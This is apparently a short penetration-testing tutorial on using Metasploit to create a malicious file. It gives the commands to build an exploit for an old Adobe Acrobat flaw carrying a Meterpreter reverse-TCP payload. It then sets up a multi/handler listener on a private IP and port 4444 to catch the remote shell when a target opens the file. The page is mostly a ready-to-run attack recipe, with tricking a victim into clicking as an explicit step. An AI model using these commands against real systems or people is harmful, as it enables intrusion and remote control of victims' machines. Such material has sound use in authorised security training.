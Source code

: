 # Creating malicious files

Not all exploits in msf is connecting to your target. Sometimes metasploit can create the exploit and then you need to get the target to click on it.

This of course require your target to have some vulnerability usually.

If your target for example uses an old version of Adobe Acrobat we can create a exploit for that.

```
use exploit/windows/fileformat/adobe_utilprintf

show options

set payload windows/meterpreter/reverse_tcp
exploit
```

So what we are doing here is first select the exploit, then we select what payload we want to have in that exploit. In this case we chose a reverse_tcp-shell.

Now we need to set up a handler to recieve the connect-back.

```
use expoit/multi/handler
set LHOST 192.168.1.102
set LPORT 4444
exploit
```

There, now we are up listening for the connect-back when the users clicks on the file.
We can look at the advances options to make sure that the listener is not exiting when you recieve a connect-back. So that you can keep listening for more connect-backs. 
